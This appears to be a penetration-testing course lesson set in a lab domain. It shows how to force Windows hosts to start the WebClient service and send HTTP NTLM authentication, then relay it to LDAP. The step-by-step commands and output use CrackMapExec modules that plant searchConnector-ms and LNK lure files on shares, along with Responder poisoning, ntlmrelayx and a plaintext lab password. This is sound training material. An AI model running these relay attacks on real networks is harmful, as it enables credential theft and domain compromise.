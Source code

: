 We learned how to abuse shared folders to make users connect to our attack host and be able to relay their `NTLM` authentication. However, the authentication generated by these machines is `SMB`, which has certain limitations, especially if we want to perform other types of attacks, such as the `LDAP` `cross-protocol relay`. For these cases, a technique will allow us to force the authentication via `HTTP` instead of `SMB`, via the abuse of `WebDAV`, a critical technology for us to be aware of.

[Web Distributed Authoring and Versioning](https://learn.microsoft.com/en-us/windows/win32/webdav/webdav-portal) ( `WebDAV`), defined in [RFC 4918](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of `HTTP` that specifies the methods for carrying out fundamental file operations like copying, moving, deleting, and creating files through HTTP; if we can find hosts with the [WebClient Service](https://revertservice.com/10/webclient/) enabled, we can provide `authentication coercion` tools a `WebDAV` connection string as a listener instead of a `UNC`, forcing it to authenticate our attack machine using `HTTP NTLM` authentication.

The Windows service responsible for `WebDav` is the `WebClient` service; it is enabled by default on Windows workstations, unlike Windows Servers. Remember that even when the service is enabled by default on workstations, it may not run. Let us use `CrackMapExec` to enumerate the network and identify if the service is running:

```
crackmapexec smb 172.16.117.0/24 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav

SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\plaintext$:o6@ekK5#rlw2rAe
SMB         172.16.117.50   445    WS01             [+] INLANEFREIGHT.LOCAL\plaintext$:o6@ekK5#rlw2rAe
SMB         172.16.117.60   445    SQL01            [+] INLANEFREIGHT.LOCAL\plaintext$:o6@ekK5#rlw2rAe
```

None of these servers have `WebDav` running; however, the `WebClient` service might be only stopped, and we can try a method to start this service by forcing a connection to a WebDav service using a [Windows Search Connectors (.searchConnector-ms)](https://learn.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file. A `*.searchConnector-ms` file is a special file used to link the computer’s search function to particular web services or databases. Like installing a new search engine to a computer, it allows one to quickly find information from that source without launching a web browser or additional software. What makes this type of file useful for our purpose is that it can help us to force the remote computer to enable the `WebClient` service in case it is disabled and allows us, eventually, to force HTTP authentication. To do this, we will take the following content and put it in the shared folder where we got access:

#### searchConnector-ms

```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```

Alternatively, we can use `CrackMapExec`’s module `drop-sc` that will create the file for us and save it into a shared folder:

#### Using CrackMapExec’s drop-sc Module

```
crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=smb FILENAME=@secret

[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous:
DROP-SC     172.16.117.3    445    DC01             [+] Found writable share: smb
DROP-SC     172.16.117.3    445    DC01             [+] [OPSEC] Created @secret.searchConnector-ms file on the smb share
```

Once a user connects to the shared folder, the `WebClient` service on that computer will start because it’s trying to connect to the web server we specified in the URL. Let us again use `CrackMapExec`’s module `webdav` to verify if the `WebDAV` was enabled on any machines:

```
crackmapexec smb 172.16.117.0/24 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav

SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\plaintext$:o6@ekK5#rlw2rAe
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [+] INLANEFREIGHT.LOCAL\plaintext$:o6@ekK5#rlw2rAe
WEBDAV      172.16.117.50   445    WS01             WebClient Service enabled on: 172.16.117.50
SMB         172.16.117.60   445    SQL01            [+] INLANEFREIGHT.LOCAL\plaintext$:o6@ekK5#rlw2rAe
```

Now that we know `WS01` enabled `WebDAV`, we can use `Slinky` to coerce the client to perform an HTTP authentication; however, we need to set `SERVER` using the format `\\ANY_STRING@8008\important` (this is an example of a `WebDAV connection string`, which we will learn about in the next section):

```
crackmapexec smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=NOAREALNAME@8008 NAME=important

[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous:
SLINKY      172.16.117.3    445    DC01             [+] Found writable share: smb
SLINKY      172.16.117.3    445    DC01             [+] Created LNK file on the smb share
```

Next, we use `Responder` to poison the response for the request to the `NOAREALNAME` name:

```
sudo python3 Responder.py -I ens192
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
```

Finally, we execute `ntlmrelayx` and relay the HTTP authentication to LDAP. We need to include the option `--http-port 8008` because we used the port `8008` in the UNC path. The option `--no-smb-server` is used not to start the `SMB` server, it’s not mandatory; we are just using it because we only want to receive `HTTP` authentication on port 8008:

```
ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-smb-server --http-port 8008 --no-da --no-acl --no-validate-privs --lootdir ldap_dump

Impacket v0.11.0 - Copyright 2023 Fortra

[*] HTTPD(8008): Connection from 172.16.117.50 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(8008): Authenticating against ldap://172.16.117.3 as INLANEFREIGHT/CMATOS SUCCEED
[*] Assuming relayed user has privileges to escalate a user via ACL attack
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

**Note:** `thehacker.recipes` blog post [WebClient abuse (WebDAV)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient), has some other methods of making a remote system start the WebClient service.